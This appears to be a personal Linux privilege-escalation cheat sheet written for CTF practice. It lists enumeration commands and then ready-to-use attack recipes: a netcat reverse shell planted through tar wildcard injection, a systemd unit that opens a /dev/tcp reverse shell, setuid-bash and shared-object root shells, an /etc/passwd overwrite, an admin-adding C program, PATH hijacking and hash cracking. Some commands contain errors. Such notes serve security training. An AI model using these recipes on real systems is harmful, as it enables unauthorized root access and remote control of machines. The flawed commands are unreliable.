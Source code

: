 ## Good Reads
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
https://github.com/janithmalinga/PayloadsAllTheThings
https://book.hacktricks.xyz/linux-unix/privilege-escalation
```
## Manual Enumeration

## Enumerate User Info

### Logged in user
```
id
whoami
pwd
```

### Find OS version
```
cat /etc/*-release
uname -a
lsb_release -a
```

### Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
### curently running processes
```
ps aux
```
### What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## Enumerate Network

### Find IP and associated IPs
```
ifconfig
ip a
```

### Open Ports
```
netstat -ano
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## Automated Enumeration
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

## Exploiting scheduled tasks

### User editable cronjobs
```
crontab -l
cat /etc/crontab
```

### Application based cron jobs
```
ls -all /etc/cron.d
```

### tar * running as Cron job
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

### if you find a cronjob running as root but can be editable run this command
```
chmod u+s /bin/bash
and then this,
/bin/bash -p
```

### Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

### Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## SUID checker
```
find / -type f -perm -04000 -ls 2> /dev/null
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

### systemctl has SUID set
Create root.service file
```
[Unit]
Description=get root privilege

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/9999 0>&1'

[Install]
WantedBy=multi-user.target
```
Transfer it to CTF and runfollowing command
```
/bin/systemctl enable /home/pepper/root.service
```

### If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```

### If you found a shared object, create this c file to inject
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

## Environment variable injection

### If you find a file without full path and having SIUD bit set, create this c file,
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

### Set environment path to /tmp
```
export $PATH=/tmp:$PATH
```

### crack shadow hash using john
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
